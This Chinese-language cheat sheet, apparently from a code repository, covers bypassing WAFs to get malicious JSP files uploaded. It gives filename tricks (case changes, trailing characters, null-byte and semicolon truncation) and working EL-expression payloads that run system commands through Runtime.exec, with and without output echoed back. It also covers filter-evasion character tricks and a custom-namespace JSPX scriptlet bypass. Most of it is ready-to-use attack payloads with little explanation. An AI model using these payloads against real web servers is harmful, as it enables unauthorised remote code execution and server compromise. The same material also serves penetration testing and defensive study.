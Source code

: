 # 文件上传漏洞绕过WAF-JSP


## 文件拓展名绕过

- 拓展名没有限制，通过Content-Type字段限制   Content-Type: image/png

- 黑名单->拓展名jspx      `filename="re.jspx"`
- 黑名单->拓展名大小写     `filename="re.JsP"`
- 黑名单->拓展名后加空格   `filename="re.jsp "`
- 黑名单->拓展名后加斜杠   `filename="re.jsp/"`
- 00截断                  `filename="re.jsp%00.jpg"` (需要通过burpsuite hex修改)
- 分号截断                `filename="re.jsp;.jpg"` 

## 文件内容绕过

### 通用方法

- 添加大量的脏数据

### JSP `<% %>`被过滤
>采用EL表达式 `${}`

#### 快速理解
- [EL文档](https://www.tutorialspoint.com/jsp/jsp_expression_language.htm)
- [EL常见写法](https://javaee.github.io/tutorial/jsf-el007.html)
利用常用对象   
```java
pageContext.setAttribute("name1","test"); //保存的数据只在一个页面中有效
request.setAttribute("name2","test"); //保存的数据只在一次请求中有效，请求转发会携带这个数据
session.setAttribute("name3","test"); //保存的数据只在一次会话中有效，从打开浏览器到关闭浏览器
application.setAttribute("name4","test");  //保存的数据只在服务器中有效，从打开服务器到关闭服务器
```
#### poc
命令执行:
```
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("whoami").getInputStream())} 
```
带回显命令执行
```
//获取byte[]对象
${pageContext.setAttribute("byteArrType", heapByteBuffer.array().getClass())}
//构造一个String
${pageContext.setAttribute("stringClass", Class.forName("java.lang.String"))}
${pageContext.setAttribute("stringConstructor", stringClass.getConstructor(byteArrType))}
${pageContext.setAttribute("stringRes", stringConstructor.newInstance(heapByteBuffer.array()))}
//回显结果
${pageContext.getAttribute("stringRes")}
```
#### 表达式常见字符限制绕过

通过 charAt 与 toChars 获取字符，在由 toString 转字符串再用 concat 拼接来绕过一些敏感字符的过滤
```
${"xxx".toString().charAt(0).toChars(97)[0].toString()}
${"xxx".toString().charAt(0).toChars(97)[0].toString().concat("xxx".toString().charAt(0).toChars(98)[0].toString())}
```
通过以上代码，只需要修改toChars()中的ascii码值就可以变成任意字符



### JSPX `jsp:scriptlet`被过滤

将原本的`<jsp:scriptlet>`替换成`<自定义字符:scriptlet>`
```
<hi xmlns:hi="http://java.sun.com/JSP/Page">
    <hi:scriptlet>
        out.println(30*30);
    </hi:scriptlet>
</hi>
```

## Ref
1. [记一次绕过waf的任意文件上传](https://xz.aliyun.com/t/11337)
2. [普通EL表达式命令回显的简单研究](https://forum.butian.net/share/886)
